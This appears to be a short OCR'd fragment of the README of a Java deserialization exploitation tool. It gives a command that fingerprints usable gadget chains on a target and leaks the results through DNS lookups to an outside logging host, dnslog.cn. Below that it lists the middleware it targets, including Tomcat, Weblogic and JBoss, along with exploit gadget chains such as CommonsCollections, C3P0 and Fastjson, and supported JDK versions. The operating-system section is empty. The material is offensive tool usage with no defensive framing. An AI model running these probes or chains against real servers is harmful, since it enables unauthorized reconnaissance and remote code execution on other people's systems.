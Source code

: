 ```java
-m YsoAttack -g FindGadgetByDNS -a "string.dnslog.cn:Tomcat|bes|tongweb|Tomcat6|undertow"
```

**中间件**

```java
Tomcat
Tomcat6
Weblogic
WebSphere
jetty12
jetty
Glassfish
resin
undertow
Jboss
Wildfly
netty
jindie
tongweb
bes

```

**利用链**

```java
CommonsCollections13567
CommonsCollections24
CommonsBeanutils2
C3P0
AspectJWeaver
bsh
Groovy
Becl
DefiningClassLoader
Jdk7u21
JRE8u20
ROME
Fastjson
Jackson
SpringAOP
```

**JDK**

```java
jdk17_22
jdk9_22
jdk6_8
jdk6_11
jdk9_10
```

**操作系统**

